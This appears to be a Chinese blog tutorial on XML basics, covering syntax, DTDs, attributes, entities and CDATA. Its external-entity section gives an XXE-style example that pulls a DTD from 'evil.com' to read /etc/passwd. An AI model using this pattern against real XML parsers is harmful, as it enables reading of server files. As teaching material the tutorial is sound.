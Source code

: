 +++
date = "2016-05-25T13:59:59+08:00"
description = ""
draft = false
tags = ["xml"]
title = "XML基础"
topics = ["Other"]

+++

### 0x00 XML简介
1、xml的设计宗旨是传输数据，而并非显示数据  
2、xms是不作为的，它被设计用来结构化、存储以及传输信息  
3、xml只是纯文本，独立于软硬件和应用程序  
4、xml可供任何软硬设备读取数据  
5、xml可以自定义标签  
6、xml具有自我描述性  
7、xml是对html的补充  
8、xml常用于简化数据的存储和共享  

### 0x01 XML语法规则
1、所有元素必有闭合标签  
2、标签对大小写敏感  
3、必须正确的嵌套  
4、XML必须有根元素，根节点可以有子节点  
5、XML的属性值必须加引号(能用子元素的就用子元素代替属性)  
6、空格会被保留  
7、XML以LF存储换行  
8、注释使用```<!--   -->```  
9、实体引用  
```html
&lt;  <   小于
&gt;  >   大于
&amp;   &   和号
&apos;  '   单引号
&quot;  "   引号
```

### 0x02 XML格式
```
<?xml version="1.0" encoding="utf-8"?>  <!--xml声明-->

<!--文档类型定义-->
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to       (#PCDATA)>
  <!ELEMENT from     (#PCDATA)>
  <!ELEMENT heading  (#PCDATA)>
  <!ELEMENT body     (#PCDATA)>
]>

<!--文档元素-->
<note>
  <to>Tom</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Hi,I’am John</body>
</note>
```

### 0x03 XML示例
例子一：John给George的便签
```
<?xml version="1.0" encoding="UTF-8"?>
<note>   <!-- 根元素 -->
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>
```

例子二：传输数据
```
<?xml version="1.0" encoding="UTF-8"?>
<books>
  <book>
    <name>Python黑帽子</name>
    <date>2015</date>
    <price>37￥</price>
    <description>
      用python写一些程序
    </description>
  </book>
  <book>
  <name>Web安全深度剖析</name>
  <date>2014</date>
  <price>39￥</price>
  <description>
    讲述web渗透的基础知识
  </description>
</books>
```

### 0x04 XML属性
对于xml要尽量避免使用属性，作为数据的都尽量使用标签，作为标识的可以作为属性，  
下面两种xml文档包含信息相同，但是推荐第二种
```
<?xml version="1.0" encoding="UTF-8"?>
<messages date="28/08/2008">
  <note id="501"> <!-- ID仅仅是一个标识符，用于标识不同的便签。-->
    <to>George</to>
    <from>John</from>
    <heading>Reminder</heading>
    <body>Don't forget the meeting!</body>
  </note>
  <note id="502">
    <to>John</to>
    <from>George</from>
    <heading>Re: Reminder</heading>
    <body>I will not</body>
  </note> 
</messages>
```
```
<?xml version="1.0" encoding="UTF-8"?>
<messages>
  <date>28/08/2008</date> <!-- date作为数据，所以写入到标签中 -->
  <note id="501">
    <to>George</to>
    <from>John</from>
    <heading>Reminder</heading>
    <body>Don't forget the meeting!</body>
  </note>
  <note id="502">
    <to>John</to>
    <from>George</from>
    <heading>Re: Reminder</heading>
    <body>I will not</body>
  </note> 
</messages>
```

### 0x05 使用实体
实体是用于定义引用普通文本或特殊字符的快捷方式的变量，实体可在内部或外部进行声明。  
XML实体分为四种：字符实体，命名实体，外部实体，参数实体。  
可以利用DTD来内部或外部引入实体，DTT基本格式：<!DOCTYPE 根元素名 [  元素描述   ]>

* 内部引入

格式：```<!ENTITY 实体名称 "实体的值">```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
    <!ENTITY abc "Hello World!">
]>
<root>
    &abc;
</root>
```

* 外部引入

格式：```<!ENTITY 实体名称 SYSTEM "URI">```

evil.dtd中的内容为```<!ENTITY b SYSTEM "file:///etc/passwd">```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
    <!ENTITY a SYSTEM "http://evil.com/evil.dtd">
]>
<root>
    &b;
</root>
```

### 0x06　CDATA
在 XML 元素中，"<" 和 "&" 是非法的。  
"<" 会产生错误，因为解析器会把该字符解释为新元素的开始。  
"&" 也会产生错误，因为解析器会把该字符解释为字符实体的开始。  
为了避免错误，可以将脚本代码定义为CDATA，CDATA部分中的所有内容都会被解析器忽略。

```
<![CDATA[ <script>alert("test");</script> ]]>
```
